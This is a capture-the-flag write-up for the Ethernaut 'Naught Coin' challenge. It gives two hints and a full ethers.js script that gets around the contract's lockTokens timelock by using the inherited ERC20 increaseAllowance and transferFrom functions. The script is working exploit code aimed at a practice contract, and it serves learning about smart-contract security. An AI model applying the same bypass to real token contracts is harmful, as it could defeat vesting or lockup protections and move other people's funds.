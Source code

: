 # 15 - Naught Coin

### Hints

<details>

<summary>Hint One</summary>

The `NaughtCoin` contract extends the OpenZeppelin `ERC20` contract, which means it has inherited variables and functions not present in its own source code. Perhaps you can find a way to get around the `lockTokens`ex modifier there?

</details>

<details>

<summary>Hint Two</summary>

You will need to solve this challenge in two steps. The first is to increase the allowance your player account is allowed to spend via the ERC20 contract’s `increaseAllowance` function.

</details>

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return {
    provider,
    playerOneAddress: process.env.PLAYER_ONE_ADDRESS,
    playerTwoAddress: process.env.PLAYER_TWO_ADDRESS,
    playerWallet,
    playerWalletSigner,
    contract
  }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerOneAddress,
    playerTwoAddress,
    contract: naughtCoinContract
  } = await setup('NaughtCoin')

  // Get player one balance
  const playerOneBalance = await naughtCoinContract.balanceOf(playerOneAddress)

  // Allow player one to spend own tokens
  console.log("Increasing player one's spending allowance...")
  const increasePlayerOneAllowance = await naughtCoinContract.increaseAllowance(
    playerOneAddress,
    playerOneBalance
  )
  await increasePlayerOneAllowance.wait(1)

  // Transfer player one balance to player two
  console.log("Transfering all of player one's coins to player two...")
  const transferFromToPlayerTo = await naughtCoinContract.transferFrom(
    playerOneAddress,
    playerTwoAddress,
    playerOneBalance,
    {
      gasLimit: 100000,
      gasPrice: 20000000000
    }
  )
  await transferFromToPlayerTo.wait(1)

  // Get player one's updated balance
  const playerOneUpdatedBalance = await naughtCoinContract.balanceOf(
    playerOneAddress
  )
  console.log(`Player one's balance now: ${playerOneUpdatedBalance}`)
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
